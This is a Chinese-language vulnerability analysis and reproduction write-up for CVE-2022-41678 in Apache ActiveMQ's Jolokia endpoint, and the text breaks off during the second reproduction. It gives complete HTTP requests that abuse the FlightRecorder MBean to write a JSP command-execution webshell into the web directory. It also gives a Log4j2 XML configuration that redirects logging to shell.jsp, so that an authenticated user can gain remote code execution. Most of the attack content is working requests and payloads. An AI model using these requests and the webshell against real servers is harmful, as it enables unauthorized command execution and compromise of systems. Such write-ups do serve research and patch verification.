# 环境搭建

**影响范围**：

- Apache ActiveMQ before 5.16.6
- Apache ActiveMQ 5.17.0 before 5.17.4
- Apache ActiveMQ 5.18.0 unaffected
- Apache ActiveMQ 6.0.0 unaffected

**漏洞编号**：CVE-2022-41678

这里下载的5.17.3

https://activemq.apache.org/activemq-5017003-release

也可以直接用vulhub

https://github.com/vulhub/vulhub/tree/master/activemq/CVE-2022-41678

下载载Apache ActiveMQ的源码，切换到5.17.3版本，并使用IDEA打开，增加一个远程调试的配置，端口是Vulhub服务器的5005：



这里用的JDK11

**漏洞成因：**

这个漏洞主要是因为ApacheMQ中包含了另一个开源项目Jolokia，Jolokia的作用是提供一个桥梁，让外部用户通过HTTP协议来访问JMX内部的属性和方法。这样用户就可以无需使用JConsole这样的客户端就可以访问JMX了。

如果可以去注册一个MLet去加载恶意的MBean，或者通过本身的MBean的一些敏感方法的滥用，可以造成一定的危害

但是这里不存在MLet，也没有办法去注册，jolokia只是提供http来访问JMX的属性和方法

jolokia使用MBean的方法https://stackoverflow.com/questions/27707190/activemq-jolokia-api-how-can-i-get-the-full-message-body

# JDK11

## 漏洞分析

访问jolokia的接口，列出所有的MBean，访问的时候需要加在Origin头

在`activemq-parent-5.17.3/assembly/src/release/webapps/api/WEB-INF/web.xml`



```
http://192.168.50.74:8161/api/jolokia/list
```



FlightRecorder是在Java 11中引入的一个事件捕捉器，可以用于捕捉Java虚拟机运行中的事件，功能是记录内存，gc，调用栈等，并将最后的记录文件写到磁盘上。

FlightRecorder提供了名为 `jdk.management.jfr:type=FlightRecorder` 的MBean，它有16个方法，

我们需要使用的就是下面这几个：

- newRecording 新建一个事件记录器
- setConfiguration 更改某个事件记录器的配置
- startRecording 开始记录
- stopRecording 结束记录
- copyTo 将记录导出到磁盘上

大概思路就是将jsp代码通过setConfiguration写入文件里面，再用copyTo导出到web目录下造成任意文件写入

代码位置在 jdk.management.jfr.FlightRecorderMXBeanImpl#setConfiguration

## 漏洞复现

因为要调用setConfiguration更改某个配置到值，所以首先构建数据包获取默认配置，先调用setPredefinedConfiguration，打断点可以拿到默认的值，但是这里我断点下不下去不知道为什么，用一下l3yx师傅的图



拿到的值很长，可以在vulhub的poc里面找到，绕过下断点也可以在debug中复制出来，接下来就是新建记录

```
POST /api/jolokia HTTP/1.1
Host: 192.168.50.74:8161
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=PHPSTORM
origin: http://localhost
Connection: close
Content-Type: application/json
Content-Length: 136

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "newRecording",
    "arguments": []
}
```



这里会得到一个record id，用于后面设置，录制，导出

更改配置为恶意的代码片段，在里面加入了webshell



```
<?xml version="1.0" encoding="UTF-8"?>

......
    <event name="jdk.ThreadAllocationStatistics">
      <setting name="enabled">true</setting>
      <setting name="period"><![CDATA[||| <% Process p = Runtime.getRuntime().exec(request.getParameter("cmd")); out.println(org.apache.commons.io.IOUtils.toString(p.getInputStream(), "utf-8")); %> |||]]></setting>
    </event>

    <event name="jdk.ClassLoadingStatistics">
      <setting name="enabled">true</setting>
      <setting name="period">1000 ms</setting>
    </event>
      <setting name="enabled">true</setting>
      <setting name="period">beginChunk</setting>
    </event>

......
</configuration>
```

```
POST /api/jolokia/ HTTP/1.1
Host: 192.168.50.74:8161
Origin:localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Content-Type: application/json
Content-Length: 31263

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "setConfiguration",
    "arguments": [1,"..."]
}
```



接下来开始录制

```
POST /api/jolokia/ HTTP/1.1
Host: 192.168.50.74:8161
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Origin: http://192.168.50.74:8161
Content-Length: 116
Content-Type: application/json
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close

{"type": "exec", "mbean": "jdk.management.jfr:type=FlightRecorder", "operation": "startRecording", "arguments": [7]}
```



结束录制

```
POST /api/jolokia HTTP/1.1
Host: 192.168.50.74:8161
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=PHPSTORM
origin: http://localhost
Connection: close
Content-Type: application/json
Content-Length: 138

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "stopRecording",
    "arguments": [7]
}
```



导出jsp

```
POST /api/jolokia HTTP/1.1
Host: 192.168.50.74:8161
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=PHPSTORM
origin: http://localhost
Connection: close
Content-Type: application/json
Content-Length: 156

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "copyTo",
    "arguments": [7,"webapps/admin/1234.jsp"]
}
```



# 低版本Java

对于FightRecorder这个Mbean，是JDK11才引入的，对于低版本并不可用，但是P师傅发现ActiveMQ在5.17.x中将log4j升级成Log4j2，org.apache.logging.log4j.core.jmx.LoggerContextAdminMBean ，用户使用它可以动态地更新log4j的配置。这样，我们可以将配置文件的路径指定成webshell，再通过写入日志的方式插入一句话木马，进而执行任意代码

## 漏洞分析

首先找到log4j2这个Mbean


所以Mbean为`org.apache.logging.log4j2:type=67784306`，对应的代码位置在`org.apache.logging.log4j.core.jmx.LoggerContextAdmin` 类

读取名字是 org.apache.logging.log4j2:type=67784306 的MBean中的 ConfigText 属性，也就是 getConfigText 方法

```
POST /api/jolokia HTTP/1.1
Host: 192.168.50.74:8161
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=PHPSTORM
origin: http://localhost
Connection: close
Content-Type: application/json
Content-Length: 101

{
"type": "read",
"mbean": "org.apache.logging.log4j2:type=67784306",
"attribute": "ConfigText"
}
```





这样来读到了log4j2.properties的内容

存在了getConfigText方法，这个Mbean中还存在setConfigText方法



这个方法有两个参数，他并不是一个setter函数，所以我们不能直接调用write来对内容进行设置，需要用exec的方式来执行这个setConfigText方法，大致如下

```
{"type": "exec", "mbean": "org.apache.logging.log4j2:type=67784306", "operation": "setConfigText", "arguments": ["xml", "utf-8"]}
```

为什么要用xml呢，前面的断点可以看到getConfigText方法实际上是获取的ActiveMQ的日志配置，返回的格式是`.properties`

具体的内容信息是这样的，里面是日志配置，也包括了日志的存放位置，那么如果通过setConfigText修改配置，就可以将日志写到web目录下的jsp，然后插入恶意代码了

```
## ---------------------------------------------------------------------------\n## Licensed to the Apache Software Foundation (ASF) under one or more\n## contributor license agreements.  See the NOTICE file distributed with\n## this work for additional information regarding copyright ownership.\n## The ASF licenses this file to You under the Apache License, Version 2.0\n## (the \"License\"); you may not use this file except in compliance with\n## the License.  You may obtain a copy of the License at\n##\n## http:\/\/www.apache.org\/licenses\/LICENSE-2.0\n##\n## Unless required by applicable law or agreed to in writing, software\n## distributed under the License is distributed on an \"AS IS\" BASIS,\n## WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.\n## See the License for the specific language governing permissions and\n## limitations under the License.\n## ---------------------------------------------------------------------------\n\n#\n# When debugging or reporting problems to the ActiveMQ team,\n# change rootLogger level to DEBUG\n#\nrootLogger.level=INFO\nrootLogger.appenderRef.console.ref=Console\nrootLogger.appenderRef.console.filter.threshold.type=ThresholdFilter\nrootLogger.appenderRef.console.filter.threshold.level=INFO\nrootLogger.appenderRef.logfile.ref=RollingFile\n\n# Loggers configuration\n\n# ActiveMQ Spring\nlogger.spring.name=org.apache.activemq.spring\nlogger.spring.level=WARN\n\n# ActiveMQ web\nlogger.web.name=org.apache.activemq.web.handler\nlogger.web.level=WARN\n\n# Spring\nlogger.springframework.name=org.springframework\nlogger.springframework.level=WARN\n\n# XBean\nlogger.xbean.name=org.apache.xbean\nlogger.xbean.level=WARN\n\n# Jetty\nlogger.jetty.name=org.eclipse.jetty\nlogger.jetty.level=WARN\n\n# ActiveMQ\n#log4j2.logger.activemq.name=org.apache.activemq\n#log4j2.logger.activemq.level=DEBUG\n\n# Appender configuration\n\n# Console appender\nappender.console.type=Console\nappender.console.name=Console\nappender.console.layout.type=PatternLayout\nappender.console.layout.pattern=%5p | %m%n\n\n# File appender\nappender.logfile.type=RollingRandomAccessFile\nappender.logfile.name=RollingFile\nappender.logfile.fileName=${sys:activemq.data}\/activemq.log\nappender.logfile.filePattern=${sys:activemq.data}\/activemq.log.%i\nappender.logfile.append=true\nappender.logfile.layout.type=PatternLayout\nappender.logfile.layout.pattern=%d | %-5p | %m | %c | %t%n%throwable{full}\nappender.logfile.policies.type=Policies\nappender.logfile.policies.size.type=SizeBasedTriggeringPolicy\nappender.logfile.policies.size.size=1MB\n\n# you can control the rendering of exception in the pattern\n# by default, we display the full stack trace\n# if you want to display short form of the exception, you can use\n#\n# log4j2.appender.logfile.layout.pattern=%d | %-5p | %m | %c | %t%n%throwable{short}\n#\n# a classic issue with filebeat\/logstash is about multiline exception. The following pattern \n# allows to work smoothly with filebeat\/logstash\n#\n# log4j2.appender.logfile.layout.pattern=%d | %-5p | %m | %c | %t%n%replace(%throwable){\\n}{ }\n#\n\n# use some of the following patterns to see MDC logging data\n#\n# %X{activemq.broker}\n# %X{activemq.connector}\n# %X{activemq.destination}\n#\n# e.g.\n#\n# log4j2.appender.logfile.layout.pattern=%d | %-20.20X{activemq.connector} | %-5p | %m | %c | %t%n\n\n###########\n# Audit log\n###########\nlogger.audit.name=org.apache.activemq.audit\nlogger.audit.additivity=false\nlogger.audit.level=INFO\nlogger.audit.appenderRef.auditlog.ref=AuditLog\n\nappender.auditlog.type=RollingRandomAccessFile\nappender.auditlog.name=AuditLog\nappender.auditlog.fileName=${sys:activemq.data}\/audit.log\nappender.auditlog.filePattern=${sys:activemq.data}\/audit.log.%i\nappender.auditlog.append=true\nappender.auditlog.layout.type=PatternLayout\nappender.auditlog.layout.pattern=%-5p | %m | %t%n\nappender.auditlog.policies.type=Policies\nappender.auditlog.policies.size.type=SizeBasedTriggeringPolicy\nappender.auditlog.policies.size.size=1MB\n
```

接下来先在setConfigText方法中下断点



跟进这里的getConfiguration方法



在这个方法中，因为传入的是文件的内容而并非文件路径，所以此时文件名是null，通过调试可以看到log4j在解析配置文件的时候，会依次尝试properties、json、yaml、xml等类型，并通过配置文件的后缀来判断文件是哪一种类型，因为是文件内容，什么都匹配不上，最后就会调用默认的文件格式解析，也就是xml



所以在调用setConfigText的时候，需要将原本的`.properties`格式转化为xml格式，将文件路径修改写到web目录下，转化后修改的内容如下，这个文件中的日志名改为了` ${sys:activemq.data}/../webapps/admin/shell.jsp` ，日志`org.eclipse.jetty `的等级改为 DEBUG ，然后通过 setConfigText 方法更新进系统中。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration>
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%5p | %m%n"/>
        </Console>
        <RollingRandomAccessFile name="RollingFile" fileName="${sys:activemq.data}/../webapps/admin/shell.jsp" 
            filePattern="${sys:activemq.data}/../webapps/admin/shell.jsp.%i">
            <PatternLayout pattern="%d | %-5p | %m | %c | %t%n%throwable{full}"/>
            <Policies>
                <SizeBasedTriggeringPolicy size="1MB"/>
            </Policies>
        </RollingRandomAccessFile>
        <RollingRandomAccessFile name="AuditLog" fileName="${sys:activemq.data}/audit.log" filePattern="${sys:activemq.data}/audit.log.%i">
            <PatternLayout pattern="%-5p | %m | %t%n"/>
            <Policies>
                <SizeBasedTriggeringPolicy size="1MB"/>
            </Policies>
        </RollingRandomAccessFile>
    </Appenders>
    <Loggers>
        <Root level="INFO">
            <AppenderRef ref="Console"/>
            <AppenderRef ref="RollingFile"/>
        </Root>
        <Logger name="org.apache.activemq.spring" level="WARN"/>
        <Logger name="org.apache.activemq.web.handler" level="WARN"/>
        <Logger name="org.springframework" level="WARN"/>
        <Logger name="org.apache.xbean" level="WARN"/>
        <Logger name="org.eclipse.jetty" level="DEBUG"/>
        <Logger name="org.apache.activemq.audit" level="INFO" additivity="false">
            <AppenderRef ref="AuditLog"/>
        </Logger>
        <!-- Uncomment and modify as needed for ActiveMQ logger
        <Logger name="org.apache.activemq" level="DEBUG"/>
        -->
    </Loggers>
</Configuration>
```

## 漏洞复现

首先获取log4j2的Mbean名字


调用setConfigText写入xml配置，将日志写到web目录下，发包的时候记得转义引号

```
